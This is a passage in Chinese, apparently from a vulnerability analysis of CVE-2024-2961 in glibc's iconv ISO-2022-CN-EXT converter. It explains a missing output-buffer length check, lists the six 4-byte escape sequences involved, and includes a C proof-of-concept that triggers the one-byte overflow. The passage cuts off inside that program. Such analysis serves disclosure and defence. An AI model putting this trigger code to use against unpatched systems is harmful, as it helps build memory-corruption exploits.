 在上述代码的这两个分支中，输入会被转换为4字节的输出，且不会检查输出buf的长度。这可能产生6种输出：

```
\x1b$*H        0x1b 0x24 0x2A 0x48
\x1b$+I        0x1b 0x24 0x2b 0x49
\x1b$+J        0x1b 0x24 0x2b 0x4a
\x1b$+K        0x1b 0x24 0x2b 0x4b
\x1b$+L        0x1b 0x24 0x2b 0x4c
\x1b$+M        0x1b 0x24 0x2b 0x4d
```

而PoC如下：

```C
/*
CVE-2024-2961 POC
$ gcc -o poc ./poc.c && ./poc
Remaining bytes (should be > 0): -1
$
*/
#include <iconv.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <ctype.h>

void hexdump(void *ptr, int buflen)
{
    unsigned char *buf = (unsigned char *)ptr;
    int i, j;
    for (i = 0; i < buflen; i += 16)
    {
        printf("%06x: ", i);
        for (j = 0; j < 16; j++)
            if (i + j < buflen)
                printf("%02x ", buf[i + j]);
            else
                printf("   ");
        printf(" ");
        for (j = 0; j < 16; j++)
            if (i + j < buflen)
                printf("%c", isprint(buf[i + j]) ? buf[i + j] : '.');
        printf("\n");
    }
}

void main()
{
    iconv_t cd = iconv_open("ISO-2022-CN-EXT", "UTF-8");

    char input[0x10] = "AAAAA劄";
    char output[0x10] = {0};

    char *pinput = input;
    char *poutput = output;

    // Same size for input and output buffer
    size_t sinput = strlen(input);
    size_t soutput = sinput;

    iconv(cd, &pinput, &sinput, &poutput, &soutput);

    printf("Remaining bytes (should be > 0): %zd\n", soutput);

    hexdump(output, 0x10);
```